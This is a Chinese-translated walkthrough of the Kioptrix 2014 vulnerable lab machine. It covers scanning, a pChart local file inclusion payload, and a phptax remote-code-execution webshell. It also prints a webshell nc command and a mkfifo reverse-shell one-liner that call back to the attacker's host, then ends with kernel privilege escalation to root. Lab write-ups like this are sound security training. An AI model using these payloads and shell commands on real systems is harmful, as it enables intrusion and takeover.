# Kioptrix 2014

> 原文：<https://infosecwriteups.com/kioptrix-2014-c5b1f5144fc9?source=collection_archive---------0----------------------->



# 摘要

Kioptrix 2014 是一个运行在 FreeBSD 上的 Apache web 服务器。
它托管一个易受本地文件包含攻击的 web 应用程序，该应用程序用于枚举和公开另一个 web 应用程序。
额外的 webapp 易受远程代码执行的攻击，该代码用于删除 webshell 并生成反向 shell。一旦进入系统，两个内核漏洞被成功用于获得根用户访问权限。

# 侦察/扫描

我最初的侦察是对本地网络进行 arp 扫描，以便用`netdiscover`快速返回目标在我私有范围内的 IP 地址。

```
netdiscover -r 192.168.15.0/24
```

> -r 指定网络范围

网络发现

接下来，我用一个`nmap`扫描枚举了主机上的服务

```
nmap -sV -sC 192.168.15.150
```

> -sV 探测开放端口以确定服务/版本信息
> -sC 运行默认脚本

nmap

我们可以看到在运行 **Apache** 的 **FreeBSD** 主机上打开了两个 web 端口

接下来，我尝试使用`dirb`和`gobuster`来枚举网络目录

```
dirb [http://192.168.15.150](http://192.168.15.150)
```

dirb 端口 80

> 403 =禁止
> 200 =正常



index.html

`index.html`似乎是默认网页

此扫描没有产生太多…让我们检查端口 8080

```
dirb [http://192.168.15.150:8080](http://192.168.15.150:8080)
```

dirb 端口 8080

这次又不多了。

在这一点上，我想用另一个工具来验证信息的缺乏。
我选了`gobuster`。

```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [http://192.168.15.150](http://192.168.15.150) -s 200,204,301,302,307,403
```

> -w 指定一个单词列表(Kali 有几个内置)
> -u 指定一个 URL
> -s 指定响应寻找
> 200，204，301，302，307 默认；由于 dirb 结果，我添加了 403

该扫描运行了几分钟，但没有结果。

使用相同的扫描移动到端口 8080…

```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [http://192.168.15.150:8080](http://192.168.15.150:8080) -s 200,204,301,302,307,403
```

gobuster 8080

几乎单词列表中的每一行都返回禁止的响应——这也很容易在浏览器中验证。

这里发生了一些奇怪的事情…

最后，我运行一个`nikto`扫描来列举任何已知的漏洞。

```
nikto -h 192.168.15.150
```

> -h 指定主机

nikto 80

端口 8080 上的结果非常相似。

仔细看，我们发现 **mod_ssl** 已经过时了。

我发现了这个服务和版本的一个漏洞，看起来它应该可以工作，但我从未利用过这个漏洞…可能是一些需要重新审视的东西。

在这一点上，似乎没有太多的工作要做，所以我重新访问默认的登录页面并查看页面的属性。



pChart2.1.3/index.php

没有太多其他的东西可戳，所以我尝试访问属性中列出的 URL。



pChart 2.1.3

我们还有一个网页！

# 初始利用

`searchsploit`返回了此 webapp 的两个漏洞:

1.  本地文件包含
2.  跨站点脚本

普哈特·LFI

我能够用这个例子来验证 LFI:

```
/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd
```



/etc/密码

根据 [FreeBSD 文档](https://www.freebsd.org/doc/handbook/network-apache.html)，Apache 配置文件位于`/usr/local/etc/apache2x/httpd.conf`，因为我们从扫描中知道主机运行的是 Apache 2.2，所以查看文件的路径是:

```
/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```



httpd.conf

我们可以看到端口 8080 只允许 Mozilla4 用户代理——这就是我们之前一直被阻塞的原因！

Mozilla/4.0 是[微软的兼容性视图和 Internet Explorer 7 的用户代理字符串](https://blogs.msdn.microsoft.com/ieinternals/2013/09/21/internet-explorer-11s-many-user-agent-strings/)。

我本打算在浏览器中更改这一点，但后来我遇到了这个…



不

我决定用`burpsuite`来代替。



这是非常琐碎的，但是我不想让拦截保持打开，并手动编辑每个请求。

我没必要这么做！

`burpsuite`有一个内置的`Proxy > Options`下的“匹配和替换”功能，在我的历史中有了改变。我所要做的就是告诉 burp 通过勾选一个框来继续为我做这件事！



现在我可以到达 8080 端口了！



phptax

# 得到一个壳

让我们看看`searchsploit`是否知道这件事。



searchsploit phptax

太棒了。马上，我们看到有一个 metasploit 模块。我将检查其他两个选项，以尝试自动化程度较低的利用方式。

phptax RCE

为了让 dropper 执行，我必须安装一个 php curl 库并重启 apache

```
$ apt-get install php7.0-curl
$ /etc/init.d/apache2 restart
```

然后我就可以放下 webshell 了。

```
$ php shell.php -u [http://192.168.15.150:8080/phptax](http://192.168.15.150:8080/phptax)
```

> -u 指定主机

这个脚本将一个`rce.php` webshell 放到了`/phptax/data/`目录中。


rce.php

接下来，我使用了一个包含在 Kali】下的反向 shell，但也在这里找到了。

`wget`和`curl`不在服务器上，所以我用我的 webshell 用`nc`把文件拖到服务器上。

在我的盒子上:

```
$ nc -lvp 1234 < php-reverse-shell.php
```

> -l 监听连接
> -v 表示详细连接
> -p 指定端口
> <以在连接时打印文件内容

在 webshell 中:

```
/rce.php?cmd=nc 192.168.15.141 1234 > php-reverse-shell.php
```

> 若要将传入的数据导入服务器上的新文件中



NC php-reverse-shell.php

反向外壳可以通过在浏览器中调用它的路径来调用。

```
http://192.168.15.150:8080/phptax/data/php-reverse-shell.php
```



反向外壳

我还找到了一种不用另一个文件就能获得反向 shell 的方法。

```
mkfifo pipe;nc 192.168.15.141 1234<pipe|/bin/sh>pipe 2>pipe;rm pipe
```

这类似于 [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 的反向外壳——我无法工作。这一行中发生的事情是，我们使用一个名为`pipe`的 FIFO 命名管道通过端口 1234 将`/bin/sh`发送到我们的机器。命名管道为运行在同一台机器上的进程之间或局域网上的两台机器之间的进程间通信提供了一种方式。在这种情况下，无论什么时候输出到`/bin/sh`，它都会被`pipe`通过 nc 重定向到我们的终端。

# 权限提升

`uname -a`显示主机是 FreeBSD 9.0 版本。

`searchsploit`有两个针对本地权限提升的内核漏洞。



searchsploit privesc

服务器已经安装了`gcc`，所以我将尝试在本地编译文件。
我使用`nc`将文件放在服务器上，确切地说是反向 shell 是如何传输的。



根 x2

两个内核都利用了生成的根外壳！从这里我们可以看到旗帜。